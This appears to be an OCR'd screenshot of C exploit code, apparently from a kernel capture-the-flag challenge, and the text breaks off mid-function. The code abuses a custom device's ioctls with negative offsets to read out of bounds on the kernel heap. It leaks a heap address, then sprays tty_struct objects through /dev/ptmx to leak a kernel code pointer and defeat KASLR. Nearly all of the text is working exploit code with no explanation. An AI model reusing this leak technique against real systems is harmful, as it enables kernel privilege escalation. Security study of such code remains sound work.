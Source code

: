 ```c=

size_t get_heap_addr(){
	char buf[0x400];
	memset(buf,'A',0x100);
	header[1] = (long long)buf;
	header[2] = 0x100;
	header[3] = 0;
	for(int i=20;i<24;i++){
		header[0] = i;
		if( ioctl(fd,0x30000,header) ) 
			exit(-i);
	}
	for(int i=20;i<23;i++){
		header[0] = i;
		if( ioctl(fd,0x30001,header) ) 
			exit(-i);
	}

	header[0] = 23;
	header[1] = (long long)readbuf;
	header[3] = -0x100*1;
	header[2] = -header[3];
	if( ioctl(fd,0x30003,header) ) 
		exit(0);

	long long kaddr = readbuf[0];
	printf("%p\n",(void*)kaddr);


	header[2] = 0x100;
	header[3] = 0;
	for(int i=20;i<23;i++){
		header[0] = i;
		if( ioctl(fd,0x30000,header) ) 
			exit(-i);
	}
	return kaddr;
}
void get_kernel_addr(){
	char buf[0x400];
	memset(buf,'A',0x400);
	header[1] = (long long)buf;
	header[2] = 0x400;
	header[3] = 0;
	for(int i=0;i<10;i++){
		header[0] = i;
		if( ioctl(fd,0x30000,header) ) exit(-i);
	}

	for(int i=0;i<9;i++){
                header[0] = i;
                if( ioctl(fd,0x30001,header) ) exit(-i);
        }

	fdx = open("/dev/ptmx",O_RDWR|O_NOCTTY);

	header[3] = -(0x400*1);
	header[2] = -header[3];
	header[0] = 9;
	long long x[0x3*2*1] = {};
	header[1] = (long long)x;
	if( ioctl(fd,0x30003,header) ) exit(-6);
	kcode = x[3]-0x625d80;
```